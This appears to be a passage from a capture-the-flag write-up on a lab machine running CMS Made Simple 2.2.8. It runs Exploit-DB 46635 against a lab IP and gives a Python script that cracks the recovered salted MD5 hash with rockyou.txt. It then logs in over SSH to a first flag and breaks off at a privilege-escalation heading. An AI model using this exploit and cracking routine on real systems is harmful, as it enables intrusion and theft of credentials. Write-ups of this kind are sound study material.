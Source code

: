 - Found CMS Made Simple version 2.2.8

---

### Exploit-DB 46635
<img width="1919" height="239" alt="image" src="https://github.com/user-attachments/assets/259a0443-725d-4ec9-883b-896bbb9bd190" />

```bash
python2 46635.py -u http://10.10.181.13/simple/
```
Output returned:

<img width="634" height="140" alt="image" src="https://github.com/user-attachments/assets/12e3d3da-d30e-4212-97af-61c829eda75d" />

---

### Cracking the hash

- Hash: 0c01f4468bd75d7a84c7eb73846e8d96
- Salt: 1dac0d92e9fa6bb2

- I used a simple Python brute-force over `rockyou.txt.`
```bash
# crack.py
import hashlib

salt = "1dac0d92e9fa6bb2"
target = "0c01f4468bd75d7a84c7eb73846e8d96"

with open("/usr/share/wordlists/rockyou.txt","rb") as f:
    for w in f:
        pw = w.strip()
        if hashlib.md5(salt.encode()+pw).hexdigest() == target:
            print("[+] Password found:", pw.decode(errors='ignore'))
            break
```
- Result: secret

---

## Access

### SSH Login
<img width="1243" height="516" alt="image" src="https://github.com/user-attachments/assets/71600437-106b-434d-8a4c-05e87a62e090" />

<img width="543" height="152" alt="2" src="https://github.com/user-attachments/assets/bf978eab-9d36-4554-90ab-0129f78f7aa9" />

- First flag found: `[FLAG FOUND]`

---

## Privilege Escalation
